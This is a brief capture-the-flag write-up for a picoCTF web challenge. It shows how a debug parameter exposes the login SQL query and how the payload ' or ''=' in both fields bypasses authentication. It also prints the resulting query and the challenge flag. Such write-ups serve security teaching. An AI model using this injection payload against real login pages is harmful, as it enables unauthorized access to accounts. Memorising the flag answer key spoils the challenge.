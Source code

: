 #web-exploitation
<hr>

#### Description

There is a website running at `https://jupiter.challenges.picoctf.org/problem/50009/` ([link](https://jupiter.challenges.picoctf.org/problem/50009/)) or http://jupiter.challenges.picoctf.org:50009. Do you think you can log us in? Try to see if you can login!

#### Solve
1.  First, send POST request to https://jupiter.challenges.picoctf.org/problem/50009/login.php with request key of debug=1
2. The SQL query: SELECT * FROM users WHERE name=' '  AND password=' '
3. Do SQL Injection by sending POST request with username=`' or ''='` and password=`' or ''='`
4. Result of SQL query: `SQL query: SELECT * FROM users WHERE name='' or ''='' AND password='' or ''=''`
5. picoCTF{s0m3_SQL_fb3fe2ad}